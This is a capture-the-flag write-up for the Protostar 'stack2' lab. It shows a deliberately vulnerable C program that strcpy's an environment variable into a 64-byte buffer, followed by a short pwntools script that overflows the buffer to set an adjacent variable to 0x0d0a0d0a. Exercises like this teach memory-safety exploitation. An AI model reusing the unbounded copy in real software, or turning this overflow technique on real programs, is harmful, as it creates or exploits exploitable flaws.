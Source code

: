 ## Challenge Description

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Solution

```python
from pwn import *

env_value = b"A"*64 + p32(0x0d0a0d0a)

target = process("./stack2", env={'GREENIE':env_value})
elf = context.binary = ELF("./stack2", checksec = False)
context.log_level = "debug"

target.interactive()
```
